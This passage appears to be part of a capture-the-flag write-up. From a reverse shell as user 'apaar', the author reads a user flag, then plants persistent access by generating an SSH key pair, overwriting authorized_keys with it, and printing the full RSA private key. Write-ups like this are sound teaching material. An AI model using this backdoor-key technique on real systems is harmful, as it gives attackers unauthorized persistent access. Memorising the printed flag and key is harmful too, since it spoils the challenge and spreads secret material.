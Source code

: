 I now have a shell as the user **apaar**! I looked into the file: **local.txt**

```
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

There is the user flag!

Now that I have the User Flag, I will now generate a new RSA Key Pair so that I will be able to login to apaar's account.

The first thing I do is run the following command in the reverse-shell (in the **/home/apaar** directory): 

```
ssh-keygen -f apaar
```

The above command will generate a public and private RSA key for Apaar's SSH login. It will then direct the output into 2 files: **apaar** (for the private key) and **apaar.pub** (for the public key).

I then took the **apaar.pub** file, and directed the contents into the **/home/apaar/.ssh/authorized_keys** file:
	
```
cat apaar.pub > ./.ssh/authorized_keys
```

I then typed **cat /home/apaar/apaar** and got:
	
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA6wKs6miYI2RnP5+fIKGs9AXe7EnQzc+bAO4jZsxWoDUeBm5F
j59hfxxEuVFHAiIQbXUT3ijhoeOQJcExECRdiukxXHIKHaGnUNawpAChkHpWPW0/
ZCZmulgSfi4n92dgNWkWXhJG/+DLx1pXfxA7hzkZ/uYgEukU43MOrK3Yq80HHkOw
f4RkCrXJmgFLKHyAnBEknN3KFmcaVdC+kBsHl1IN0MRjTNpCHnMVPCVSWDZceoUn
OWkpmdvv6xjfM046lFyKKOLg1PRlxSKybMUNx56vrizKxo9Lo4gBHL6NqGHtm2PA
DX679aGLAZUgB/DY3pfk4vULoDkLsXU8w9vDJQIDAQABAoIBAAzBT2tFlARPvb7Z
RgS6Ya2459mBRCD3hJ0vT6KTspvtZhzJPWNHLj585Un9nFIEUUnvkc18AIsN09QI
wUX0A1O3xmMTGXN0Q6WCkYHFOv+hdC7PUCJ6Zxb0EsTgcnDeHn2nn3wpl8rpg4Xl
ZFxUIDb9pWiNSu5b0jNqGkDLCriARKMvC9yAO55cSpDCaQGP2dx+smN07IRagr96
LjOV0Y0xNkcBCj/vJvozQ1i3bSXOQCmn8Zhde2rhbzPK9C8FH9Lwaz9jQHfuCVHL
o4sWfAYDW2SNYH3Y7S37PYsLRCb8oP2oegxge21fcO7G4OSAoimKSGMEc00UtWMr
ckbmIIECgYEA97OXbVAuYtdWdk5C6S+su/nHZ7w/DVj0YoeM9wf6w8p8mKWPBxSN
pkb98uEoi82fXPyfkbsyiUHdorLHwhB9RP4DUTqAx83kxK6t/DTimA70X6VbikfR
3ofIBjb3z+FzyCUkIASz7iV/ugK9TfGkkKO7iD5+Wge6whoqkmD9jaECgYEA8uI9
NVO/EspyCwiYwkVTqPjmkgs0S125mhUpPs3dQA6PZXau1CAEI/wlNRG8zaZXhabp
mKMzZz6rmeyqEkUyM/s76rZ/eOErCDviOhah0nSyj2AQAd1HiUFur/SdtC/Oslwp
VdfQXBwSGtJg8uDbmZ3J3uNOS5MqshnuORRRnwUCgYEA2cRxP7B7Z3hr0kzRtJKu
aQCa189/G2v2Rt1nCBNi2lkdm1IKYa4nLmVBhBOBgw9+qNCMNSH/tv5KLWzCBBJd
H5e2MOafK4oPMv9jhNS11ftnyuLkjLjBgMOdDiGrUn6iPPayQNgBnEApf85CwdDM
3kCkcY6HpP0gqt84SEKvB6ECgYEAo7vIL27pXC2Fe9KryCscHsjMBp/u/O+N80VY
rLHy+P/Xwzqi2PVMVUXhf0kZ0jjUv5Cp4PAD8xHYdMeKTw6+rTQsTCoC/OYuMDrO
YwJmzI1G4kiMAfW+B9VIXO22coXX/X0LkIcQO0fhHJu+J31WDNTGBa+OVHw9SBsa
8Pe1nlECgYEAvG2HWosv4bIIy4bxMgHEHqYLVXr0FaNQcuHLXL19CcLAq8qoNL3g
OunRjWEumhuUPSePVv8tPEtbi9rmd/YaA1RgVo/2EXtWRAQbrTNjSMehHUELzxqx
G/6nL6s71y+DA/hcWrfZjII3MLKKdf15zS7+2bmidx+k0w7W4mnC9dQ=
-----END RSA PRIVATE KEY-----
```

